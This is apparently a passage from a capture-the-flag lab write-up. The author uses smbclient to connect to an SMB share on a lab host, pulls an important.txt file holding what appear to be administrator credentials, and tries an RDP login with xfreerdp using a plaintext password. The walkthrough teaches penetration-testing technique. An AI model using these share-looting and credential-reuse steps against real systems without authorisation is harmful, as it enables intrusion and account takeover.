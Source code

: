 It works! We can now list some shares. But can we read them? That `Users` share looks intriguing.

```
$ smbclient -U 'alex' //10.129.245.121/devshare
Password for [WORKGROUP\alex]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 10 11:12:22 2021
  ..                                  D        0  Wed Nov 10 11:12:22 2021
  important.txt                       A       16  Wed Nov 10 11:12:55 2021

		6367231 blocks of size 4096. 2593093 blocks available
smb: \>
```

Interesting! Let's download it and read it!

```
$ cat important.txt 
sa:87N1ns@slls83
```

Looks like we have potential administrative credentials! But first let's see if our `alex` user can RDP into the machine.

```
xfreerdp /u:alex /p:'lol123!mD' /v:10.129.213.48
```

![rdp img](/assets/imgs/rdp-alex.png)
